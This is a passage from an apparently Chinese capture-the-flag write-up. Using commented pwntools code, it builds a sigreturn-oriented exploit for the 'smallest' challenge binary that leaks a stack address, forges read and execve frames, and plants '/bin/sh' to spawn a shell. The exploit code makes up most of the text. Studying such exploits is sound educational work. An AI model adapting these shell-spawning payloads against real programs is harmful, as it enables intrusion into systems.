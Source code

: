```python
stack_addr = u64(sh.recv()[8:16]) #接收接下要要部署的栈顶地址
log.success('leak stack addr :' + hex(stack_addr))

read = SigreturnFrame()
read.rax = constants.SYS_read #read函数系统调用号
read.rdi = 0  #read函数一参
read.rsi = stack_addr  #read函数二参
read.rdx = 0x400  #read函数三参
read.rsp = stack_addr  #和rsi寄存器中的值保持一致，确保read函数写的时候rsp指向stack_addr
read.rip = syscall_ret #使得rip指向syscall的位置，在部署好read函数之后能直接调用
payload = p64(start_addr) + p64(syscall_ret) + str(read)
sh.send(payload)
sh.send(payload[8:8+15])  #输入15个字节使得rax寄存器的值为15，进行sigreturn调用

execve = SigreturnFrame()
execve.rax = constants.SYS_execve
# "/bin/sh"字符串地址，这里为了能够让exp3.1正常执行，所以直接给了0x120，下面会将为什么是0x120
execve.rdi = stack_addr + 0x120  
execve.rsi = 0x0 #execve函数二参
execve.rdx = 0x0 #execve函数二参
execve.rsp = stack_addr 
execve.rip = syscall_ret

frame_payload = p64(start_addr) + p64(syscall_ret) + str(execve)
print len(frame_payload)

sh.interactive()
```

可以看到payload_exe的长度为264个字节，也就是十六进制的0x108个字节，也就是说我们将/bin/sh字符串部署在payload_exe后面就可以了，也就是说/bin/sh字符串的地址要大于stack_addr + 0x108的地址，当然尽可能的接近这个地址就可以了，不需要将偏移调的太大。所以凑个整我们就把/bin/sh字符串放在stack_addr + 0x120的位置就好了

那么我们的payload就需要更改一下了，因为我们的/bin/sh字符串要同payload_exe一起写进栈中，那么/bin/sh字符串前面的空位就需要填充一下：

> payload = payload_exe + (0x120 - len(payload_exe)) * '\x00' + '/bin/sh\x00'
>

这样一来我们完整的EXP就构筑好了：

```python
from pwn import *
from LibcSearcher import *
small = ELF('./smallest')
sh = process('./smallest')
context.arch = 'amd64'
context.log_level = 'debug'
syscall_ret = 0x00000000004000BE #源代码syscall处地址
start_addr = 0x00000000004000B0  #源代码xor rax,rax处地址

payload = p64(start_addr) * 3  #部署三个start_addr，完成三次read函数的调用
sh.send(payload)

#覆盖第二个start_addr的最后一个字节变成0x00000000004000B3，越过对rax寄存器的清零，还使得rax寄存器值变为1
sh.send('\xb3')  
stack_addr = u64(sh.recv()[8:16]) #接收接下要要部署的栈顶地址
log.success('leak stack addr :' + hex(stack_addr))

read = SigreturnFrame()
read.rax = constants.SYS_read #read函数系统调用号
read.rdi = 0  #read函数一参
read.rsi = stack_addr  #read函数二参
read.rdx = 0x400  #read函数三参
read.rsp = stack_addr  #和rsi寄存器中的值保持一致，确保read函数写的时候rsp指向stack_addr
read.rip = syscall_ret #使得rip指向syscall的位置，在部署好read函数之后能直接调用
payload = p64(start_addr) + p64(syscall_ret) + str(read)
```
